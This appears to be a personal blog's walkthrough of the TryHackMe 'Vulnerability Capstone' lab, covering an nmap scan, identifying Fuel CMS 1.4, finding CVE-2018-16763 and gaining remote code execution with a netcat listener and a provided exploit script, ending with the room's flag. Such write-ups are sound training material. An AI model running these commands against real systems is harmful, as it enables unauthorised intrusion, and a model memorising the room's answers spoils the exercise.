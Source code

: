 ```yaml
---
title:  "THM: Vulnerability Capstone"
date:   2024-03-22 18:00:00 +0000
categories: [Vulnerabilities]
tags: [Vulnerabilities]
---
```


![image](/assets/img/vc.png) 

---
Ref: 

- [THM: Vulnerabilities 101](https://tryhackme.com/r/room/vulnerabilities101)

- [THM: Exploit Vulnerabilities](https://tryhackme.com/room/exploitingavulnerabilityv2)

- [THM: Vulnerability Capstone](https://tryhackme.com/room/vulnerabilitycapstone)

- [Exploit-DB](https://www.exploit-db.com/)

- [NVD (National Vulnerability Database)](https://nvd.nist.gov/vuln)

- [OWASP framework](https://owasp.org/www-project-top-ten/) 

- [Rapid7](https://www.rapid7.com/db/) 

- [Wordpress Plugin SP Project & Document](https://www.rapid7.com/db/modules/exploit/multi/http/wp_plugin_sp_project_document_rce/0)

---
Step 1 - Nmap 
```
nmap 10.10.67.58
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2024-03-23 00:48 GMT
Nmap scan report for ip-10-10-67-58.eu-west-1.compute.internal (10.10.67.58)
Host is up (0.00027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:89:D9:14:39:AF (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.68 seconds
```

Step 2 - port 80 open -> http
Go to the browser
 Fuel CMS
 ![img](/assets/img/vc01.png)

 1. What is the name of the application running on the vulnerable machine? Fuel CMS

 2. What is the version number of this application?
1.4

3. What is the number of the CVE that allows an attacker to remotely execute code on this application?
- searchsploit -> Fuel CMS -> Romte Execute Code
![img](/assets/img/vc02.png)
- exploit-db -> search -> Fuel CMS -> CVE #
-> CVE-2018-16763

4. There is an exploit located on the AttackBox 
![img](/assets/img/vc03.png)

- Create a listener from the attack box w/ port:8081
```
nc -lvnp 8081
```

Use the exploited provided under /usr/share/exploits/vulnerabilitiescapstone
```
python3 exploit.py 10.10.67.58
```

5. What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.
THM{ACKME_BLOG_HACKED}

[def]: /assets/img/vc.png
